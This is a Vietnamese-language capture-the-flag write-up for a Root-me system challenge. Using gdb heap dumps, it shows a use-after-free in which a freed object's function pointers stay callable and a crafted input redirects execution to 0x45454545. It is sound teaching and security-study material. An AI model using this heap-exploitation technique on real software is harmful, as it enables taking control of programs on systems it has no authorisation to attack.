 ```
```
- Heap được bắt đầu từ **0x9595000** cho tới **0x95b6000**. Sử dụng **x/100x 0x9595000** để kiểm tra vùng nhớ heap
```
(gdb) x/100x 0x9595000
0x9595000:      0x00000000      0x00000021      0x41414141      0x00000000
0x9595010:      0x00000000      0x08048765      0x080487cb      0x08048871
0x9595020:      0x00000000      0x00020fe1      0x00000000      0x00000000
```
- **0x41414141** chính là **AAAA** do ta nhập vào. 8 byte **\x00** tiếp theo là vùng nhớ được cấp cho **name[12]**. **0x08048765** là vùng nhớ con trỏ **bark** trỏ vào, **0x080487cb** là vùng nhớ con trỏ **bringBackTheFlag** trỏ vào, **0x08048871** là vùng nhớ con trỏ **death** trỏ vào. Ta có thể kiểm tra bằng lệnh **info symbol**.

```
(gdb) info symbol 0x08048765
bark in section .text of /challenge/app-systeme/ch63/ch63
(gdb) info symbol 0x080487cb
bringBackTheFlag in section .text of /challenge/app-systeme/ch63/ch63
(gdb) info symbol 0x08048871
death in section .text of /challenge/app-systeme/ch63/ch63
```
- Nhập c để tiếp tục và chọn 5. Lúc này chương trình sẽ bị break sau khi free dog. Ta tiếp tục kiểm tra thông tin heap
![](https://raw.githubusercontent.com/jkana/Writeup/main/Root-me/Images/3.JPG)
```
(gdb) x/100x 0x9595000
0x9595000:      0x00000000      0x00000021      0x00000000      0x00000000
0x9595010:      0x00000000      0x08048765      0x080487cb      0x08048871
0x9595020:      0x00000000      0x00020fe1      0x00000000      0x00000000
```
- Ta có thể thấy được vùng dữ liệu đã được giải phóng. Do con trỏ không được reset, nên ta vẫn có thể gọi được dog->bark qua options 2.(Chó chết rồi nhưng vẫn sủa được)
- Nhập c để tiếp tục thực hiện việc điền thông tin cho DogHouse Với address là **BBBBCCCCDDDDEEEE** và Name là **FFFF**
![](https://raw.githubusercontent.com/jkana/Writeup/main/Root-me/Images/4.JPG)
- Nhập 2 để gọi **bark**, chương trình sẽ crash khi gọi **bark**.

```
Where do you build it?
BBBBCCCCDDDDEEEE
How do you name it?
FFFF
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
2
Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
```
